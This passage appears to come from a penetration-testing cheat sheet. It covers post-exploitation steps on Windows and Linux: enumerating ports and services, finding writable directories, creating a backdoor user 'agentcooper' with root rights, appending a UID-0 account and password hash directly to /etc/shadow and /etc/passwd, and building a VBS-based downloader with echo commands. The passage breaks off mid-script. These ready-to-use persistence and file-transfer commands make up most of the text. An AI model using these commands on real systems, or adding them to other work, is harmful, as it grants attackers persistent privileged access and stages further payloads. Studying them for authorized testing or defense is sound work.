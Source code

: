 
See open ports with running services:
```bash
# see ports with running PID's
netstat -ano

# see matching services to PID's
tasklist
```

## Linux

### Users


Bash script for adding user with admin rights

```bash
#!/bin/sh
/usr/sbin/adduser agentcooper
/usr/bin/passwd agentcooper
/usr/sbin/usermod -aG root agentcooper
```

It's often difficult tu use built-in utilities within limited shell, more robust to simply add strings to files:

```bash
#!/bin/sh
echo "agentcooper:\$1\$AbCD4536\$ujyfop5giNd2eAFbEo0o6/:16903:0:99999:7:::" >> /etc/shadow
echo "agentcooper:x:0:0:::/bin/bash" >> /etc/passwd
echo "agentcooper:x:0:" >> /etc/group
```


### Insecure files and Services

Find writable directories

```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
```

See ports with services

```bash
netstat -tulpn`
```

# Access
## File Transfer

Create VBS based wget tool for windows 

```posh
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
```